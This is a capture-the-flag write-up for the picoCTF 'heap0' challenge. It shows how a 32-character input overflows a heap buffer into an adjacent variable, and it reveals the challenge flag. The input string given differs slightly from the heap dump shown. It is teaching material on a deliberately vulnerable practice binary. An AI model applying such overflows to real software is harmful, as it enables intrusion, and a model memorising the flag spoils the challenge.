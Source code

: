 # Given

Are overflows just a stack concern?
Download the binary [here].
Download the source [here].
Additional details will be available after launching your challenge instance.

# Solution
When you netcat into the instance, it immediately gives these instructions:
```
Welcome to heap0!
I put my data on the heap so it should be safe from any tampering.
Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x6500f57582b0  ->   pico
+-------------+----------------+
[*]   0x6500f57582d0  ->   bico
+-------------+----------------+

1. Print Heap:		(print the current state of the heap)
2. Write to buffer:	(write to your own personal block of data on the heap)
3. Print safe_var:	(I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:		(Try to print the flag, good luck)
5. Exit
```
Trying the options one at a time, we see the following:
- Option 1 just prints out the same heap state from above. Notice that the addresses of the 2 variables are right next to each other,
  separated by 32 bytes.
- Skipping to option 3, it looks like safe_var is the second address from the heap data
- Option 4 prints the following:
```
Looks like everything is still secure!

No flage for you :(
```
So, based on the first line of this response, and "I'm confident it \[safe_var\] can't be modified",
my best guess would be that we just have to change the value of safe_var somehow.
Let's test a little bit of input, to make sure we don't mess up the flag.
Writing in `01234567` with option 2 gives us the following heap dump:
```
Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x64085cf412b0  ->   01234567
+-------------+----------------+
[*]   0x64085cf412d0  ->   bico
+-------------+----------------+
```
So, it looks like we're writing over the first variable.
To get safe_var to change, we might just have to make our input 32 characters long.
Try option 2 again with the input:
`012345678901234567890123445678901`
and we get the heap dump:
```
Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x64085cf412b0  ->   01234567890123456789012345678901
+-------------+----------------+
[*]   0x64085cf412d0  ->   
+-------------+----------------+
```
Nice. Looks like we perfectly filled up the 32 bytes, and then got a null byte placed at the end of our string 
(which just so happens to be the starting address of the next string), making
`safe_var` look like just an empty string. Checking option 4 now, we get:
```
YOU WIN
picoCTF{my_first_heap_overflow_4fa6dd49}
```
